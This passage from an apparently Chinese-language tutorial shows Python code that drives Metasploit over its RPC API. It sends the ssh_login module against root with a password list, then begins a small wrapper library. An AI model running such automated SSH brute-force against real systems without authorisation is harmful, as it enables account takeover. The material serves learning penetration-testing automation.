 ```python
        res = client.call('console.create')
        console_id = res['id']
    except:
        print ("Console create failed\r\n")
        sys.exit()
    # 要发送给终端的命令
    cmd = """
 		 use auxiliary/scanner/ssh/ssh_login

         set RHOSTS 127.0.0.1
        
         set USERNAME root
         
         set PASS_FILE /tmp/pass.txt
        
         exploit

        """
    client.call('console.write',[console_id,cmd])
    time.sleep(1)
    while True:
        # 发送命令并获取结果
        res = client.call('console.read',[console_id])
        if len(res['data']) > 1:
                print (res['data'])
        if res['busy'] == True:
                time.sleep(1)
                continue
        break

    client.call('console.destroy',[console_id])

```

在这个例子中，调用MSF RPC登录获取`Token`之后，创建一个`console`，并发送命令到`console，由msf服务端去执行。执行成功之后会将结果以序列化后的形式返回。反序列化之后成为一个dict，包含了返回后的结果。

## 对API进行封装

以上是一个基础的MSF API简单调用模块去攻击的demo，但是在应用中，需要对其常见的API调用进行封装，做成一个属于我们自己的`库`，使用时，只需要去调用它即可。

简单的封装如下：

```python
import msgpack
import http.client as request


class AuthError(Exception):
    """
    登录认证错误异常处理
    """
    def __init__(self):
        print("登录失败，检查账户密码")



class ConnectionError(Exception):
    """
    链接msfrpc错误异常处理
    """
    def __init__(self):
        print("连接失败，服务端或网络问题")

```